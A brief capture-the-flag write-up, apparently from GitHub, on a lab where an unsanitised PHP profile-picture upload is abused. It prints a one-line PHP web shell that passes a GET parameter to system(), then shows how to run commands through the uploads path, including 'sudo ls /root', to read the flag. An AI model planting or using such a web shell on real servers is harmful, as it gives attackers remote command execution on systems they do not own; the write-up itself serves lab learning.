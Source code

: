 Descriptions:  
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.  
Hints:  
File upload was not sanitized  
Whenever you get a shell on a remote machine, check sudo -l  

Lunch the instance and upload a random file, easy to see, we can upload any file.  
<img width="682" height="160" alt="image" src="https://github.com/user-attachments/assets/a85fed1e-5a20-4190-a19c-bb9577fd48d7" />  
It's using php, so i decide to upload php shell code to check it.  
```
<?php
system("$_GET[cmd]");
?>
```
Change the path to ` /uploads/<your_file>.php ` and putting some OS command  
<img width="822" height="143" alt="image" src="https://github.com/user-attachments/assets/f1348dab-ed43-4fc6-b6c7-4826f7951668" />  
Our shell code looks fine. Change it a little bit cho access the server.  
`/uploads/<your_file>.php?cmd=sudo ls /root `  
And voila, do you see the flag ? Use `cat` to read it.  

Peace!


